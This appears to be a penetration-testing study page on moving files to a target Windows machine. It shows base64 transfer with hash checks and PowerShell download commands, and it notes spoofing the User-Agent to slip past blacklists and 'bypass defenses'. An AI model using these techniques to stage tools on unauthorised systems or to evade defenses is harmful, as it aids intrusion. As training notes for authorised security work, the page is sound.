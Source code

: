 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Windows - File Tranfer

Transferring files to or from Windows machines is crucial in various scenarios. Below are some methods for file transfer that could help to accomplish it and even bypass defenses:

## &#x20;<mark style="color:orange;">Download to PowerShell</mark>

* &#x20;Using base64 encoding

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#On our machine
md5sum $file    #Check the hash of the file
cat $file |base64 -w0 #Convert content and print it in one line

#On the target machine
<strong>PS\> [IO.File]::WriteAllBytes("C:\Users\Public\$file", [Convert]::FromBase64String("$b64String"))
</strong><strong>PS\> Get-FileHash C:\Users\Public\i$file -Algorithm md5 #Check hash to confirm the integrity of the file
</strong></code></pre>

***

* From a web to the target system

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>PS\> (New-Object Net.WebClient).DownloadFile('$fileURL','$outFile')
</strong>PS\> Invoke-WebRequest $fileURL -OutFile $outFile #Alternative, little slower

#If the user Agent is blacklisted we can change it
PS C:\htb> Invoke-WebRequest $fileURL -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "$outFile"
</code></pre>

{% hint style="info" %}
This could also work from a server that we have mounted on our machine
{% endhint %}
